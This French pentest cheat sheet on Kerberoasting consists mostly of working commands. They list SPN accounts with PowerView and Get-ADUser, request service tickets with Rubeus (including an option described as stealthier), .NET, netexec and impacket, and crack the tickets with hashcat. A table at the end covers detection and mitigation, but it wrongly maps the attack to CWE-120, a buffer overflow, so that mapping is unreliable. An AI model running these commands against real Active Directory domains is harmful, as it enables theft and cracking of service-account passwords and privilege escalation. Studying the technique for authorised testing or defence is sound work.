

Le kerberoasting consiste à cibler les utilisateurs ayant un SPN. De ce fait, il est possible de récupérer un TGS à leur nom et ainsi de tenter de le cracker pour récupérer le password du compte.


---
### Powershell

#### Lister les comptes avec un SPN

```powershell
Get-DomainUser -SPN #powerview
---
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName #powershell
```

---
### Avec Rubeus

```powershell
Rubeus.exe kerberoast /stats
```

#### Request un TGS

```powershell
Rubeus.exe kerberoast /user:utilisateur /simple
```

#### Request un TGS sans downgrade du chiffrement. Cela permet de ne demander que les SPN avec un chiffrement type RC4_HMAC, ce qui est potentiellement plus stealthy

```powershell
Rubeus.exe kerberoast /stats /rc4opsec
Rubeus.exe kerberoast /user:utilisateur /simple /rc4opsec
```

---
### En .net

#### Request d'un tgs

```powershell
Add-Type -AssemblyNAme System.IdentityModel 
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "USSvc/serviceaccount"
```

---
### Depuis linux

#### Lister les comptes avec un SPN

```bash
netexec ldap -u "user" -p "password" --kerberoasting output.txt
---
impacket-GetUserSPNs -dc-ip $ip -u "" -p "" $domain/$user
impacket-GetUserSPNs -dc-ip $ip $domain/$user -request -outputfile output.txt
```

### Cracker le tgs

```bash
hashcat -m 13100 '$tgs' /usr/share/wordlist/rockyou.txt
```



---

| Catégorie                    | Information                                                                                                                                                                                                                                                                        |
| ---------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **TTP**                      | T1208 (Kerberoasting)                                                                                                                                                                                                                                                              |
| **CWE**                      | CWE-120 (Buffer Copy without Checking Size of Input ('Classic Buffer Overflow'))                                                                                                                                                                                                   |
| **Description de l'attaque** | Kerberoasting exploite la fonctionnalité des tickets de service Kerberos dans les environnements Windows. Les attaquants extraient les tickets de service Kerberos et les craquent hors ligne pour obtenir des mots de passe d'utilisateurs de service faibles.                    |
| **Impacts potentiels**       | - Accès non autorisé aux ressources réseau<br>- Compromission de comptes de service<br>- Élévation de privilèges                                                                                                                                                                   |
| **Comment la détecter**      | - Surveillance des demandes anormales de tickets de service Kerberos<br>- Analyse des journaux pour les tentatives de connexion échouées fréquentes<br>- Utilisation d'outils de détection d'intrusion                                                                             |
| **Remédiations/mitigations** | - Utiliser des mots de passe forts pour les comptes de service<br>- Appliquer la politique de sécurité Least Privilege<br>- Mettre en œuvre des audits réguliers des comptes et des mots de passe<br>- Utiliser Advanced Threat Protection pour surveiller les activités suspectes |
| **Lien de référence**        | [MITRE ATT&CK - T1208: Kerberoasting](https://attack.mitre.org/techniques/T1208/)                                                                                                                                                                                                  |
